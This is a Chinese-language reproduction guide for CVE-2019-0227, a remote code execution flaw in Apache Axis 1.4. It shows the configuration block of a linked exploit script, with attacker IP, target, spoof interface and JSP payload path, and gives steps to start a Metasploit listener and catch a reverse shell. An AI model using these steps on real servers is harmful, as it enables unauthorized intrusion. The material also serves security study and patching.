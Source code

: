 # （CVE-2019-0227）Apache Axis 1.4 远程代码执行

> 原文：[http://book.iwonder.run/0day/Apache/2.html](http://book.iwonder.run/0day/Apache/2.html)

## 一、漏洞简介

Apache Axis™是一个简单对象访问协议（SOAP）引擎。在最近的一次红队行动中，我们发现目标装有老版本的 Apache Axis（1.4）。现在较新的有 Apache Axis2, Apache CXF,和 Metro 等。尽管 Apache Axis 已经过时，但它仍然在许多情况下被使用，例如使用 Axis 构造的项目难以重写或者项目中含有使用 SOAP 编码的服务。

我们的目标仍在使用过时的版本，因此我们觉得值得深入挖掘，看看是否有可利用的漏洞。最后，我们找到了一个 RCE 漏洞，该漏洞是由于在默认的示例中使用了过期的硬编码域名作为默认安装。Apache 官方为该漏洞签署编号：CVE-2019-0227。现在，我们已经购买了过期域名（www.xmltoday.com）从而防止该漏洞被恶意利用。在本文中，我们将在本地环境中（无需域名）为你演示这个漏洞，同时这个漏洞对 Axis2 也有影响。

Axis 如果你在服务器的 Apache Axis 或 Axis2 的找到服务端请求伪造（SSRF）漏洞，你也可能实现目标服务器的代码执行。在 Ambionics Security 的博客文章中有类似的介绍。因为涉及到产权保护，我不会介绍那篇文章的太多细节，总而言之：Axis 以管理员权限处理 localhost 的请求，攻击者可以通过 SSRF 漏洞修改 HTTP GET 请求部分来伪装成 localhost 用户。

## 二、漏洞影响

Apache Axis 版本= 1.4

## 三、复现过程

[https://github.com/ianxtianxt/cve-2019-0227](https://github.com/ianxtianxt/cve-2019-0227)

### 1、需要在 msf 设置监听，另外需要修改代码 24-30 行处

```
＃您需要更改这些变量以匹配您的配置

myip =  “ 192.168.0.117 ”  ＃您机器的 IP

target =  “ 192.168.0.102 ”  ＃目标 IP

网关=  “ 192.168.0.1 ”  ＃默认网关

targetport =  “ 8080 ”  ＃目标运行轴的端口（可能是 8080）

pathtoaxis =  “ http://192.168.0.102:8080/axis ”  ＃这可以是自定义的视轴安装，但是这是默认

spoofinterface =  “ eth0 ”  ＃伪造的接口

jspwritepath =  “ webapps \\ axis \\ exploit.jsp ”  ＃在目标上写入 JSP 有效负载的相对路径这是 Tomcat 安装的默认路径 
```

![image](img/d6a1d705cb3c0293ce825049cfa22925.png)

### 2、然后执行 py 文件

![image](img/7b30059831a62f2c4408362e5c27eda1.png)

等待返回 shell ![image](img/038561ab44d8ba150aea67ecbad99ff9.png)

